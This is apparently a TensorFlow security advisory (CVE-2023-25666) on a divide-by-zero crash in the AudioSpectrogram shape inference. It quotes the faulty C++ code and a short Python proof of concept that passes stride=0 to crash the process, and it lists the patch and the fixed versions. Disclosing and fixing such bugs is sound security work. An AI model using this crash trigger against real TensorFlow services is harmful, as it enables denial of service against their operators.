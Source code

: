 ## TFSA-2023-008: FPE in AudioSpectrogram 

### CVE Number
CVE-2023-25666

### Impact
version:2.11.0 audio_ops.cc:70

Status SpectrogramShapeFn(InferenceContext* c) { ShapeHandle input; TF_RETURN_IF_ERROR(c->WithRank(c->input(0), 2, &input)); int32_t window_size; TF_RETURN_IF_ERROR(c->GetAttr("window_size", &window_size)); int32_t stride; TF_RETURN_IF_ERROR(c->GetAttr("stride", &stride)); .....[1]

DimensionHandle input_length = c->Dim(input, 0); DimensionHandle input_channels = c->Dim(input, 1);

DimensionHandle output_length; if (!c->ValueKnown(input_length)) { output_length = c->UnknownDim(); } else { const int64_t input_length_value = c->Value(input_length); const int64_t length_minus_window = (input_length_value - window_size); int64_t output_length_value; if (length_minus_window < 0) { output_length_value = 0; } else { output_length_value = 1 + (length_minus_window / stride); .....[2] } output_length = c->MakeDim(output_length_value); }

Get the value of stride at [1], and the used at [2]
```python
import tensorflow as tf

para = {'input': tf.constant([[14.], [24.]], dtype=tf.float32), 'window_size': 1, 'stride': 0, 'magnitude_squared': False}
func = tf.raw_ops.AudioSpectrogram

@tf.function(jit_compile=True)
def fuzz_jit():
   y = func(**para)
   return y

fuzz_jit()
```

### Patches
We have patched the issue in GitHub commit [d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14](https://github.com/tensorflow/tensorflow/commit/d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx






